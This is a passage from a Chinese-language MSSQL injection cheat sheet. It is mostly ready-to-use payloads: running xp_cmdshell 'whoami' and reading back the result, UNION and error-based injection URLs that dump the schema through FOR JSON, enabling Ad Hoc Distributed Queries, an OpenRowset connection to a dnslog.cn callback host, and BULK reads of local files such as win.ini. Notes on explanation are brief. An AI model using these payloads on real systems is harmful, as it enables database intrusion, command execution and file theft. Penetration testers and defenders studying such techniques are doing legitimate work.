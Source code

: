 ##  13. <a name='-1'></a>获取存储过程执行结果,查询配置是否开启

1. 创建一个具有相同类型字段的表
1. 执行存储过程将结果插入创建表中
1. 从表中查询对应结果
```sql
--查询配置
drop table mdconfig;create table mdconfig(a varchar(max),b int,c int,d int,e int)
insert mdconfig exec sp_configure
select b from mdconfig where a = 'xp_cmdshell'

--xp_cmdshell结果
drop table md32;create table md32(a varchar(max))
insert md32 exec xp_cmdshell 'whoami'
select a from md32
```
##  14. <a name='-1'></a>格式化数据

- for xml  需要指定模式(手动添加根节点)
- for json
###  14.1. <a name='forjson'></a>for json
**联合查询:**
`https://vuln.app/getItem?id=-1'+union+select+null,concat_ws(0x3a,table_schema,table_name,column_name),null+from+information_schema.columns+for+json+auto--`


**报错注入:**(基于错误的向量需要别名或名称，因为不能将两者的表达式输出格式化为JSON。)
`https://vuln.app/getItem?id=1'+and+1=(select+concat_ws(0x3a,table_schema,table_name,column_name)a+from+information_schema.columns+for+json+auto)--`
##  15. <a name='-1'></a>读取本地文件
###  15.1. <a name='OpenRowset'></a>OpenRowset()
```sql
--开启OpenRowSet()
exec sp_configure 'show advanced options',1
reconfigure
exec sp_configure 'Ad Hoc Distributed Queries',1
reconfigure
```
```sql
--OpenRowset()
select * from OpenRowset('sqloledb','server=aaaa.dnslog.cn;uid=sa;pwd=sa','')
```
**联合查询:**
`https://vuln.app/getItem?id=-1+union+select+null,(select+x+from+OpenRowset(BULK+’C:\Windows\win.ini’,SINGLE_CLOB)+R(x)),null,null`
**报错注入:**
`https://vuln.app/getItem?id=1+and+1=(select+x+from+OpenRowset(BULK+'C:\Windows\win.ini',SINGLE_CLOB)+R(x))--`
**权限:** BULK选项需要ADMINISTER BULK OPERATIONS或ADMINISTER DATABASE BULK OPERATIONS权限。
